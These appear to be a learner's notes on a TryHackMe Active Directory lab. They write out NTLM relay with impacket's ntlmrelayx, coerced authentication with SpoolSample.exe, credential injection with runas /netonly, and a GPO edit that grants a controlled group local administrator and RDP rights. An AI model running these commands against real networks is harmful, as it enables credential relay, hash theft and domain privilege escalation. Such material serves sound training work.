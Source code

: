 # Find the IP of the server
`dig thmserver1.za.tryhackme.loc`

# Setup NTLM relay
`python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug`

# Coerce A server to authenticate to us (we are on thmwrk1)        
`C:\Tools\>SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"`

# Get hash dump from server1 (i think xD)
` python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP"`


## Exploiting GPOs

# Adding an AD account we control to both the local Administrators and local Remote Desktop Users groups.

`C:\>runas /netonly /user:za.tryhackme.loc\<AD Username> cmd.exe`*inject the AD user's credentials into memory using the runas command*

`C:\>mmc`*open MMC to modify the GPO*

We now want to add the Group Policy Management snap-in:

    Click File -> Add/Remove Snap-in
    Select the Group Policy Management snap-in and click Add
    Click Ok

You should now be able to see GPOs for the za.tryhackme.com domain:
We can now navigate to the GPO that our user has permission to modify (Servers > Management Servers> Management Server Pushes).
We can right-click on the GPO and select Edit. This will open the new Group Policy Management Editor window.
In order to add our account to the local groups, we need to perform the following steps:

    Expand Computer Configuration
    Expand Policies
    Expand Windows Settings
    Expand Security Settings
    Right Click on Restricted Groups and select Add Group (If the IT Support group already exists, it means someone has already performed the exploit. You can either delete it to create it yourself, or just inspect it to see what was configured.)
    Click Browse, enter IT Support and  click Check Names
    Click Okay twice
The first filter is not used. For the second filter, we want to add both the Administrators and Remote Desktop Users groups. 
Once the configuration has been made, we can click Apply and OK. Now, all we need to do is wait for a maximum of 15 minutes for the GPO to be applied. After this, our initial account that we made a member of the IT Support group will now have administrative and RDP permissions on THMSERVER2!
